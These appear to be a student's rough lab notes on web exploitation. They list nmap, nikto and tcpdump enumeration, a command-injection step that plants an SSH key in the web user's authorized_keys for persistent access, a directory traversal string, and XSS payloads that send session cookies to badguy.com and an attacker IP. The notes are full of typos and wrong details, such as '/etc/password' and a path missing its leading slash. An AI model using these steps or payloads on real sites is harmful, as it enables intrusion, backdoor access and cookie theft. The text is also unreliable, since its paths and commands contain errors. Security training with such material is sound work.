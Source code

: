 web exploitation
tcpdump 
javascript website stuff
robots.ttxt is for web scrapers to look where stuff is
wevw

enumerate website
robt.txt
/uploads
/chat
/cmd injection
/java
/webxample
/cross

from surving
-acn upload file?

using tools

nmap scripy =http-enum 10.50.28.11 -vv

sudo tcpdump -XXvvnni any tcp prt 80
nikto v -h host
 nikto v -h 10.50.28.11
 sudo apt install nikto

after unning that, go to command injection. do enumeration. find what ur ssh is
go to ur limops
make a ssh key using ssh-keygen
go to the file it says
copy
then run in the website prompt
echo "sshkey" >>var/www/.ssh/authorized_keys
then cat the file
cat var/www/.ssh/authorized_keys

## directory traversal

../../../../../../../../../../../../etc/password in the url or the radio button
assu,ing its not im ho,e directory and is running cat

## web example
## cross
<script>alert('XSS!');</script>
vulnerable to cross site scripting

python3 -m http.server

<script>document.location="http://badguy.com/?" + document.cookie;</script>.<script>document.location="http://10.50.21.129" + document.cookie;</script>.


